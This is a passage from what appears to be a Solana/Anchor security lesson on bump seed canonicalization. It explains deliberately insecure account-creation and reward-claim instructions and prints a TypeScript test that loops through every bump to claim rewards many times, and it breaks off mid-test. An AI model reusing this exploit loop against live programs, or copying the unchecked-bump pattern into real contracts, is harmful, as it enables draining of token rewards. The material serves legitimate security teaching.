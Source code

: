 The `create_user_insecure` instruction simply creates a new account at a PDA derived using the signer's public key and a passed-in bump. 

The `claim_insecure` instruction mints 10 tokens to the user and then marks the account's rewards as claimed so that they can't claim again.

However, the program doesn't explicitly check that the PDAs in question are using the canonical bump.

Have a look at the program to understand what it does before proceeding.

### 2. Test insecure instructions

Since the instructions don't explicitly require the `user` PDA to use the canonical bump, an attacker can create multiple accounts per wallet and claim more rewards than should be allowed.

The test in the `tests` directory creates a new keypair called `attacker` to represent an attacker. It then loops through all possible bumps and calls `create_user_insecure` and `claim_insecure`. By the end, the test expects that the attacker has been able to claim rewards multiple times and has earned more than the 10 tokens allotted per user.

```typescript
it("Attacker can claim more than reward limit with insecure instructions", async () => {
    const attacker = Keypair.generate()
    await safeAirdrop(attacker.publicKey, provider.connection)
    const ataKey = await getAssociatedTokenAddress(mint, attacker.publicKey)

    let numClaims = 0

    for (let i = 0; i < 256; i++) {
      try {
        const pda = createProgramAddressSync(
          [attacker.publicKey.toBuffer(), Buffer.from([i])],
          program.programId
        )
        await program.methods
          .createUserInsecure(i)
          .accounts({
            user: pda,
            payer: attacker.publicKey,
          })
          .signers([attacker])
          .rpc()
        await program.methods
          .claimInsecure(i)
          .accounts({
            user: pda,
            mint,
            payer: attacker.publicKey,
            userAta: ataKey,
          })
          .signers([attacker])
          .rpc()

        numClaims += 1
      } catch (error) {
        if (
          error.message !== "Invalid seeds, address must fall off the curve"
        ) {
          console.log(error)
        }
      }
    }

    const ata = await getAccount(provider.connection, ataKey)

```